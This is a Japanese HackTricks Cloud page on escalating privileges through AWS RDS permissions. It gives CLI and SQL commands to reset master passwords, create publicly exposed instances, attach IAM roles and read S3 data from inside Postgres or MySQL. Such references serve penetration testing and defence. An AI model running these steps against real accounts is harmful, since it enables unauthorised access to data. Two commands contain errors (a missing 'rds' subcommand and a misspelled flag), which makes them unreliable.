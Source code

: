 # AWS - RDS Privesc

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローする。**
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリ。

</details>
{% endhint %}

## RDS - リレーショナルデータベースサービス

RDSの詳細については以下を参照：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

この権限を持つ攻撃者は、**マスターユーザーのパスワードを変更**し、データベース内にログインすることができます:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
データベースに**接続する**必要があります（通常、内部ネットワークからのみアクセス可能です）。
{% endhint %}

**潜在的な影響:** データベース内の機密情報を見つける。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDS Role IAM権限の悪用

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**を実行して**`rdsadmin`**というデータベースを見つけた場合、**AWS postgresqlデータベース**内にいることがわかります。
{% endhint %}

まず、このデータベースが他のAWSサービスにアクセスするために使用されているかどうかを確認できます。インストールされている拡張機能を確認してみてください:
```sql
SELECT * FROM pg_extension;
```
もし **`aws_s3`** のようなものを見つけた場合、このデータベースが **S3に対する何らかのアクセス権を持っている** と仮定できます（他にも **`aws_ml`** や **`aws_lambda`** などの拡張機能があります）。

また、**`aws rds describe-db-clusters`** を実行する権限がある場合、フィールド **`AssociatedRoles`** で **クラスターにIAMロールがアタッチされているかどうか** を確認できます。もしアタッチされている場合、そのデータベースが **他のAWSサービスにアクセスするために準備されている** と仮定できます。**ロールの名前**（またはロールの **権限** を取得できる場合）に基づいて、データベースが持つ追加のアクセス権を **推測** することができます。

バケット内の **ファイルを読み取る** には、フルパスを知る必要があります。以下のコマンドで読み取ることができます:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
もし**raw AWS credentials**を持っている場合、以下のコマンドでS3データにアクセスすることもできます:

```bash
aws s3 ls --profile compromised_profile
```
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **はS3にアクセスするためにパラメーターグループ変数を変更する必要がありません**。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql内で、クエリ **`SELECT User, Host FROM mysql.user;`** を実行し、**`rdsadmin`** というユーザーが存在する場合、それは **AWS RDS mysql db** 内にいると仮定できます。
{% endhint %}

mysql内で **`show variables;`** を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** などの変数に値がある場合、データベースがS3データにアクセスする準備ができていると仮定できます。

また、**`aws rds describe-db-clusters`** を実行する権限がある場合、クラスターに **関連付けられたロール** があるかどうかを確認できます（通常、AWSサービスへのアクセスを意味します）。

次に、**バケット内のファイルを読み取る** には、フルパスを知る必要があります。以下の方法で読み取ることができます:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` と `iam:PassRole` の権限を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加**することができます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりすることができます。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potential Impact**: RDSインスタンス内の機密データへのアクセスやデータの不正な変更。\
Mysqlのように、いくつかのDBは追加の設定が必要で、パラメーターグループにロールARNを指定する必要があります。

### `rds:CreateDBInstance`

この権限だけで、攻撃者は既存のクラスター内に**新しいインスタンスを作成**し、**IAMロール**がアタッチされている場合があります。マスターユーザーパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開することができるかもしれません:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールをアタッチして新しいRDSインスタンスを作成**することができます。攻撃者はその後、**機密データにアクセス**したり、インスタンス内のデータを変更したりする可能性があります。

{% hint style="warning" %}
アタッチするロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）：

* プロファイルはあなたのアカウントに存在している必要があります。
* プロファイルには、Amazon EC2が引き受ける権限を持つIAMロールが必要です。
* インスタンスプロファイル名および関連するIAMロール名は、プレフィックス `AWSRDSCustom` で始まる必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスやデータの不正な変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`と`iam:PassRole`の権限を持つ攻撃者は、**指定されたロールを既存のRDSインスタンスに追加**することができます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりすることが可能になります。

{% hint style="warning" %}
DBインスタンスはクラスターの外にある必要があります
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potential Impact**: RDSインスタンス内の機密データへのアクセスやデータの不正な変更。

{% hint style="success" %}
AWS Hackingを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hackingを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする。
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリに。

</details>
{% endhint %}
